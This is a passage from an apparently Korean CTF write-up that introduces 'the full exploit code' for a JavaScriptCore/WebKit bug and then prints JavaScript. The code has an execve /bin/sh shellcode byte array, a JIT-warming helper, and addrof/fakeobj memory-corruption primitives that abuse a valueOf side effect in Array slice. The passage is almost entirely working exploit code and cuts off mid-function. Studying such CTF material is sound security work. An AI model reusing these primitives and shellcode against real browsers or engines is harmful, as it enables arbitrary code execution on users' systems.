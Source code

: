 아래는 익스플로잇 전체 코드이다.

```javascript
// https://raw.githubusercontent.com/saelo/35c3ctf/master/WebKid/utils.js
load("utils.js");
// https://raw.githubusercontent.com/saelo/35c3ctf/master/WebKid/int64.js
load("int64.js");

// http://shell-storm.org/shellcode/files/shellcode-806.php
shellcode = [ 0x31, 0xC0, 0x48, 0xBB, 0xD1, 0x9D, 0x96, 0x91, 0xD0, 0x8C, 0x97, 0xFF, 0x48, 0xF7, 0xDB, 0x53, 0x54, 0x5F, 0x99, 0x52, 0x57, 0x54, 0x5E, 0xB0, 0x3B, 0x0F, 0x05 ];

// https://github.com/saelo/35c3ctf/blob/44b2a45/WebKid/pwn.js#L40
const ITERATIONS = 100000;
function jitCompile(f, ...args)
{
    for(var i = 0; i < ITERATIONS; i++)
        f(...args);
}

jitCompile(function dummy() { return 42; });

function makeJITCompiledFunction()
{
    function target(num)
    {
        for(var i = 2; i < num; i++)
        {
            if(num % i === 0)
                return false;
        }

        return true;
    }

    jitCompile(target, 123);

    return target;
}

function addrof(obj)
{
    var a = [];
    for(var i = 0; i < 100; i++)
        a.push(i+0.123);

    var b = a.slice(0, {valueOf(){
        a.length = 0;
        a = [obj];
        return 10;
    }});

    return Int64.fromDouble(b[4]);
}
function fakeobj(addr)
{
    var a = [];
    for(var i = 0; i < 100; i++)
        a.push({});

    addr = addr.asDouble();
    var b = a.slice(0, {valueOf(){
        a.length = 0;
        a = [addr];
```